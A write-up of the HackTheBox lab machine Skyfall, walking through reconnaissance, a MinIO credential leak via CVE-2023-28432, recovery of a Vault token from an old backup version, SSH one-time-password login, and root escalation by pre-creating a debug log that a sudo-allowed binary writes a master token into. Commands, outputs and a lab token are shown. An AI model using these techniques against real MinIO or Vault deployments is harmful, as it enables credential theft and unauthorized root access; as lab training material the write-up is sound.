# [](#intro)Introduction

In today's post you will find a solution write-up to the HackTheBox machine Skyfall. Let's get to action?
 

# [](#approach)Approach mindset

For our approach mindset, we shall separate it as the following steps:

1. Reconnaissance
2. Getting foothold
3. System enumeration / Privilege Escalation


## [](#step1-recon)Step 1 - Reconnaissance

As always, we shall start the enumerating open ports with Nmap:

```bash
$ sudo nmap -p- -T4 --min-rate 1000 -A -oA nmap/initial 10.129.78.160
Nmap scan report for 10.129.78.160
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=2/4%OT=22%CT=1%CU=44376%PV=Y%DS=2%DC=T%G=Y%TM=65BF912F
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   129.73 ms 10.10.14.1
2   129.85 ms 10.129.78.160

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb  4 13:29:19 2024 -- 1 IP address (1 host up) scanned in 104.10 seconds
```

The only open port available to us right now is port 80, which contains the following web service:



After scrolling down, we find a link to http://demo.skyfall.htb. In order to make this accessible, we need to add this domain to our `/etc/hosts` file. We do this by simply opening Vim as root, and appending to the last line `<machine-ip> skyfall.htb demo.skyfall.htb`. Now we are able to access this virtual host:



This login page directly tells us a pair of credentials: `guest:guest`. Upon accessing it as guest, we arrive at this:



This panel, despite being equipped with a variety of functionalities including file uploads and a URL fetcher, does not exhibit any apparent vulnerabilities. I've also tried to enumerate it with gobuster, but nothing was found.

After that, I decided to use BurpSuite and understand what was happening under the hood. I realized that when we pass a random string to the URL fetcher like below:



We get a pop up response at the bottom right corner of the page:



If we try to fetch the own Skyfall website URL http://demo.skyfall.htb, we get this message:



Indicating a simple name resolution error. After attempting other SSRF payloads, I got nowhere. 

Next I analyzed the download functionality at `/files` endpoint. Intercepting the request with Burp, we can find the following:



We could try a LFI here by passing `/etc/passwd` to the filename URL parameter. This gives us:



This indicates there is a connection to some kind of cloud storage bucket. We can see that this storage might be MinIO, as we can see it on the navbar. If we click the MinIO metrics, we get a 403:



A simple 403 bypass worked to reveal the information of this page:



At the bottom of these metrics, we find another endpoint:


After adding it to our `/etc/hosts` file and accessing it, we get a 403 response, which cannot be simply bypassed as we did with `/metric` endpoint. 

With a simple google search, I was able to find [this](https://nvd.nist.gov/vuln/detail/CVE-2023-28432) CVE which worked. This CVE references information disclosure vulnerability in MinIO's endpoint `http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify`, which is another 403 bypass. Following [this](https://www.pingsafe.com/blog/cve-2023-28432-minio-information-disclosure-vulnerability/) article, we see that changing the request method from GET to POST leaks `MINIO_ROOT_PASSWORD` and `MINIO_ROOT_USER`:



Now, I took a step back and started reading MinIO's documentation. I could find that there is a way to communicate with MinIO through a CLI interface. There is a command to interactively work with the S3 storage from the terminal with MinIO Client `mc`. We can check it how to use it [here](https://min.io/docs/minio/linux/reference/minio-mc.html). To install MinIO Client CLI, we run the following command in Linux:

```bash
curl https://dl.min.io/client/mc/release/linux-amd64/mc \
  --create-dirs \
  -o $HOME/minio-binaries/mc

chmod +x $HOME/minio-binaries/mc
export PATH=$PATH:$HOME/minio-binaries/

mc --help
```

In the documentation, we can see that to connect our machine to MinIO, we need to run `mc alias set myminio https://minioserver.example.net ACCESS_KEY SECRET_KEY`, where the access key being the `MINIO_ROOT_USER` and the secret key the `MINIO_ROOT_PASSWORD` values we found earlier. If everything is done correctly, we should get this message:

```bash
$ ./mc alias set myminio http://prd23-s3-backend.skyfall.htb <MINIO_ROOT_USER> <MINIO_ROOT_PASSWORD>
Added `myminio` successfully.
```

Now we can list the files with the following command:

```bash
$ ./mc ls --recursive myminio
[2023-11-08 05:35:28 GMT]  48KiB STANDARD askyy/Welcome.pdf
[2023-11-09 21:37:25 GMT] 2.5KiB STANDARD askyy/home_backup.tar.gz
[2023-11-08 05:35:36 GMT]  48KiB STANDARD btanner/Welcome.pdf
[2023-11-08 05:35:56 GMT]  48KiB STANDARD emoneypenny/Welcome.pdf
[2023-11-08 05:36:02 GMT]  48KiB STANDARD gmallory/Welcome.pdf
[2023-11-08 00:08:05 GMT]  48KiB STANDARD guest/Welcome.pdf
[2023-11-08 05:35:45 GMT]  48KiB STANDARD jbond/Welcome.pdf
[2023-11-08 05:36:09 GMT]  48KiB STANDARD omansfield/Welcome.pdf
[2023-11-08 05:35:51 GMT]  48KiB STANDARD rsilva/Welcome.pdf
```

We can see that there is a backup file laying around. We can use MinIO Client to copy files to our local machine using the `cp` command:

```bash
$ ./mc cp --recursive myminio/askyy/home_backup.tar.gz .
...kup.tar.gz: 2.48 KiB / 2.48 KiB ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 30.23 KiB/s 0s
```

This will make a copy of the backup file in your local machine current's directory. After unziping the file and analyzing it, I've found an `id_rsa` file which could not be used to login as the `askyy` user. Looking back at the MinIO's documentation, I realized we can also list file versions with the `--version` flag. That's what I did next:

```bash
$ ./mc ls --recursive --versions myminio/askyy/home_backup.tar.gz
[2023-11-09 21:37:25 GMT] 2.5KiB STANDARD 25835695-5e73-4c13-82f7-30fd2da2cf61 v3 PUT home_backup.tar.gz
[2023-11-09 21:37:09 GMT] 2.6KiB STANDARD 2b75346d-2a47-4203-ab09-3c9f878466b8 v2 PUT home_backup.tar.gz
[2023-11-09 21:36:30 GMT] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT home_backup.tar.gz
```

There were three different versions of this backup, and we downloaded the latest one, v3. The first version is interesting, since it is way larger than the other two. However, it also had nothing very interesting on it. Then, I downloaded the second version and found another endpoint and a HashiCorp vault token. First, to download a older MinIO's file version, we must run:

```bash
$ ./mc undo myminio/askyy/home_backup.tar.gz --recursive --last 3 --force
✓ Last upload of `home_backup.tar.gz` (vid=25835695-5e73-4c13-82f7-30fd2da2cf61) is reverted.
✓ Last upload of `home_backup.tar.gz` (vid=2b75346d-2a47-4203-ab09-3c9f878466b8) is reverted.
✓ Last upload of `home_backup.tar.gz` (vid=3c498578-8dfe-43b7-b679-32a3fe42018f) is reverted.
```

Then, we download the file with the cp command, but passing the flag `--version-id` followed by the UUID of that file:

```bash
$ ./mc cp --version-id=2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz .
...kup.tar.gz: 2.64 KiB / 2.64 KiB ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 39.08 KiB/s 0s
```

We then unzip the file with `tar`:

```bash
$ tar -xzvf home_backup.tar.gz 
./
./.profile
./.bashrc
./.ssh/
./.ssh/authorized_keys
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
```
 
Inside the backup file, we can find these lines inside the `.bashrc` file:

```bash
[...snip...]
# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
    xterm-color|*-256color) color_prompt=yes;;
esac

export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
[...snip...]
```


## [](#step3-foothold)Step 2 - Getting foothold

With the HashiCorp vault endpoint and vault key, we can get foothold by generating an ssh OTP (One-Time Password). First, we must install HashiCorp vault in our machine. I use Arch Linux, so I installed it with `sudo snap install vault`. Looking at vault's [documentation](https://developer.hashicorp.com/vault/docs/commands), we see that we need to set two variables: `VAULT_TOKEN` and `VAULT_ADDR`. To do so, we run:

```bash
$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
$ export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```

And then check if everything is running with:



Don't forget to add this new host to `/etc/hosts` file. To create a ssh OTP, we need a OTP key. We can list OTP keys using:

```bash
vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```

We cannot use the `admin_otp_key_role` key, as it gives us permission denied:



But we can use the other key. With it, we write an ssh OTP with the following command:



Don't forget to provide the `username` flag, otherwise you will be given the username `nobody`, which is not sshable. To successfully ssh, we run `ssh askyy@<machine-ip>` and provide the OTP as password:

```bash
$ ssh askyy@10.129.15.193
(askyy@10.129.15.193) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
askyy@skyfall:~$ wc -c user.txt 
33 user.txt
```


## [](#step3-crafting-the-attack)Step 3 - System enumeration

Root was super simple. First, we run `sudo -l` and check the following:

```bash
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

Let's run this binary as root and see what happens:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml
[>] Checking seal status
[+] Vault sealed: false
```

Note that nothing happened. The `sudo -l` tells us that we can also use `-v -h -d` flags, so let's try `-h` first:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message
```

So we can run verbose and debug mode. Let's try them out, first with  verbose:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[-] Master token found in config: ****************************
[>] Enable 'debug' mode for details
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```

This tells us that this command is leaking a vault master token, and we need to run it with debug mode:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~$ ls
debug.log  user.txt
askyy@skyfall:~$ cat debug.log 
cat: debug.log: Permission denied
askyy@skyfall:~$ ls -la debug.log 
-rw------- 1 root root 590 Feb  5 05:17 debug.log
```
We have permission denied here, because the file is owned by root and only root can read and write. However, what if the `debug.log` file already existed in the current directory, owned by `askyy` instead? To test this, I created a new directory and a `debug.log` file within it:

```bash
askyy@skyfall:~$ mkdir muka
askyy@skyfall:~$ cd muka
askyy@skyfall:~/muka$ touch debug.log
askyy@skyfall:~/muka$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~/muka$ ls -la debug.log
-rw-rw-r-- 1 askyy askyy 590 Feb  5 05:19 debug.log
```

And now we can read the contents and find the master token inside this log! 

## [](#step3-crafting-the-attack)Step 4 - Privilege Escalation

Now that we have the master token, we go back to our local machine and use assign this token to our `VAULT_TOKEN` variable.

```bash
$ export VAULT_TOKEN=<token>
$ vault status
Key             Value
---             -----
Seal Type       shamir
Initialized     true
Sealed          false
Total Shares    1
Threshold       1
Version         1.15.1
Build Date      2023-10-20T19:16:11Z
Storage Type    file
Cluster Name    vault-cluster-746fa9de
Cluster ID      6fc384e6-b108-1b05-2825-1de249607986
HA Enabled      false
```

With this token we can create a OTP for the root user by running the following command:

```bash
 vault write ssh/creds/admin_otp_key_role ip=10.129.15.193 username=root
Key                Value
---                -----
lease_id           ssh/creds/admin_otp_key_role/3zvgndWlUB1ZoeD0T19lmgTg
lease_duration     768h
lease_renewable    false
ip                 10.129.15.193
key                24d68169-218f-f65c-7c22-0f4d7efef1c2
key_type           otp
port               22
username           root
```

Now, we ssh as root:



Granting us the root shell!

# [](#conclusions)Conclusion

In this CTF, we learned a lot about MinIO's storage and HashiCorp vault. We were able to bypass a 403 page at http://demo.skyfall.htb to discover a S3 bucket MinIO's storage endpoint, which we communicated with it using MinIO Client. There, we found a backup file containing another endpoint, now corresponding to HashiCorp Vault, and a Vault Token. This token was used to create a OTP that could log us in as the user `askyy`.

After that, we escalated our privileges using `sudo -l` and abusing file ownership to read the contents of the `debug.log` file generated by the only command we could run as root. Inside the file, we found another vault token, but this one was a master token.

Finally, with the master token, we were able to create a OTP for the root user, which gave us access to the root shell.

Lot of action, indeed!

I hope you liked this write-up and learned something new. As always, don’t forget to do your **research!**

<a href="/">Go back</a>

